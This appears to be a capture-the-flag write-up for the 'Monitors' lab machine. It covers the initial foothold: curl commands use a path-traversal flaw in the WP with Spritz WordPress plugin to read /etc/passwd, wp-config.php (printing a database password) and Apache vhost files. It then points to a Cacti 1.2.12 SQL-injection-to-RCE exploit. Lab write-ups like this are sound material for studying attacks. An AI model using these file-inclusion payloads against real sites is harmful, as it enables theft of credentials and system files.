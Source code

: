 # Foothold

## wp-plugin Spritz LFI

* [wpscan](https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8): The WP with Spritz WordPress plugin was affected by an Unauthenticated File Inclusion security vulnerability.
  * ExploitDB - https://www.exploit-db.com/exploits/44544
  * **Proof of Concept** `http://www.example.com/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd`

```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/hostname'
monitors
```

Get username and password from `wp-config.php`
```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/var/www/wordpress/wp-config.php' | grep define | head -n3
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpadmin' );
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```

In Apache on Ubuntu, all the virtual host configuration files are stored under `/etc/apache2/sites-available` directory. With the new Apache installation you can find a default virtual host file called `000-default.conf` there.
```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/apache2/sites-available/000-default.conf'
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
... [snip] ...
```

found "virtual host" `cacti-admin.monitors.htb`.

## cacti SQLi Stacked Queries to RCE

**[cacti](https://www.cacti.net/)** is an open-source, web-based network monitoring and graphing tool designed as a front-end application for the open-source, industry-standard data logging tool RRDtool. Cacti allows a user to poll services at predetermined intervals and graph the resulting data.

Running **Version 1.2.12**

[CVE-2020-14295](https://nvd.nist.gov/vuln/detail/CVE-2020-14295): A SQL injection issue in color.php in Cacti 1.2.12 allows an admin to inject SQL via the filter parameter. This can lead to remote command execution because the product accepts stacked queries.

Found Exploit: [Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution ](https://www.exploit-db.com/exploits/49810)
